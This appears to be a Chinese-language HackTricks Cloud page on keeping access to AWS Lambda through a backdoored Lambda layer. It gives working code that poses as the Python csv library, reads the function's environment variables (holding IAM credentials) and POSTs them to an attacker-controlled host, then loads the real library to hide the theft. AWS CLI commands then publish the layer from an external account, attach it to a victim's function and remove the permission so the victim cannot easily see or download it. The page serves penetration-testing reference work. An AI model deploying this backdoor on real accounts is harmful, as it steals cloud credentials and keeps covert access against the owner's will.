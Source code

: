 # AWS - Lambda层持久性

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版本的HackTricks，请查看[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的动态 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## Lambda层

Lambda层是一个.zip文件归档，**可以包含额外的代码**或其他内容。层可以包含库、[自定义运行时](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html)、数据或配置文件。

每个函数可以包含**最多五个层**。当您在函数中包含一个层时，**内容将被提取到执行环境中的`/opt`目录**中。

默认情况下，您创建的层对您的AWS账户是**私有的**。您可以选择与其他账户**共享**一个层，或者将该层**公开**。如果您的函数使用了其他账户发布的层，即使该层版本已被删除或您的访问权限被撤销，您的函数仍然可以**继续使用该层版本**。但是，您无法使用已删除的层版本创建新函数或更新函数。

作为容器镜像部署的函数不使用层。相反，您在构建镜像时将首选的运行时、库和其他依赖项打包到容器镜像中。

### Python加载路径

Python在lambda中使用的加载路径如下所示：
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
检查第二个和第三个位置被目录占据的地方，这些目录是lambda层解压缩其文件的位置：`/opt/python/lib/python3.9/site-packages`和`/opt/python`

{% hint style="danger" %}
如果攻击者成功地篡改了一个已使用的lambda层，或者添加了一个在加载常用库时执行任意代码的lambda层，他将能够在每次lambda调用时执行恶意代码。
{% endhint %}

因此，要求如下：

* 检查受害者代码加载的库
* 创建一个带有lambda层的代理库，它将执行自定义代码并加载原始库。

### 预加载的库

{% hint style="warning" %}
在滥用这种技术时，我遇到了一个困难：当你的代码被执行时，一些库已经在python运行时中加载。我原本期望能找到像`os`或`sys`这样的东西，但甚至`json`库也被加载了。\
为了滥用这种持久化技术，代码需要在代码执行时加载一个尚未加载的新库。
{% endhint %}

使用像下面这样的python代码，可以获取在lambda中python运行时中预加载的库列表：
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
以下是**列表**（请检查是否已经存在诸如`os`或`json`之类的库）
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
这是**lambda默认安装的库**的列表：[https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda层后门

在这个例子中，假设目标代码正在导入**`csv`**库。我们将**在导入`csv`库时设置后门**。

为此，我们将在一个被lambda加载的路径**`/opt/python/lib/python3.9/site-packages`**中创建一个名为csv的目录，并在其中放置文件**`__init__.py`**。\
然后，当lambda被执行并尝试加载**csv**时，我们的**`__init__.py`文件将被加载和执行**。\
这个文件必须：

* 执行我们的恶意代码
* 加载原始的csv库

我们可以使用以下代码实现这两个目标：
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
然后，在路径**`python/lib/python3.9/site-packages/__init__.py`**中创建一个包含此代码的zip文件，并将其添加为lambda层。

您可以在[**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)找到此代码。

集成的payload将在**第一次调用或lambda容器重置后**（代码更改或冷lambda）将IAM凭证发送到服务器，但也可以集成**其他技术**，例如以下技术：

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### 外部层

请注意，可以使用来自外部账户的**lambda层**。此外，即使lambda没有权限，它也可以使用来自外部账户的层。\
还请注意，lambda可以拥有的层的最大数量为5。

因此，为了提高此技术的灵活性，攻击者可以：

* 在用户的现有层中植入后门（没有外部内容）
* 在自己的账户中**创建一个层**，让受害者账户可以使用该层，然后在受害者的Lambda中**配置该层**并**移除权限**
* Lambda仍然可以使用该层，而受害者没有任何简单的方法来**下载层的代码**（除非在lambda内部获取反向shell）
* 受害者无法通过**`aws lambda list-layers`**命令看到使用的外部层

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版本的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的账号 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
